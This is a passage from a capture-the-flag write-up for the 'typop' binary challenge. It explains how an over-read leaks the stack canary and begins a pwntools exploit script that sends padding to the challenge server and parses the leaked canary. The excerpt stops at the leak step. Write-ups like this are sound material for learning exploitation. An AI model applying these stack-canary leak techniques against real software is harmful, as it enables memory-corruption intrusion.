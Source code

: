 ![ghidra_getFeedback_stack](./screenshots/ghidra_getFeedback_stack.png)

The first read operation has a max size of 0x1e it will return our buffer back to us.  We can use this to read the stack canary and the frame address.  The exploit requires 10 bytes which will overwrite the null bute at the end of the stack canary.  Lets test it.

![leak_canary](./screenshots/leak_canary.png)

It works.  Begin writing our exploit.

```python
from pwn import *

u = make_unpacker(64, endian='little', sign='unsigned')
binary = context.binary = ELF("./attachments/chall")

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('typop.chal.idek.team', 1337)

payload =  b"y"
with open("payload", "wb") as fp:
    fp.write(payload)
p.sendline(payload)

p.recvuntil("Do you like ctf?\n")
payload = b""
payload += b"A" * 11
with open("payload", "ab") as fp:
    fp.write(payload)
p.send(payload)

buf = p.recvuntil("Can you provide some extra feedback?\n")
tmp = buf.split(b"AAAAAAAAAAA")[1]
tmp = tmp.split(b"\nAww")[0]
stack_canary = u(b"\x00" + tmp[:7])
```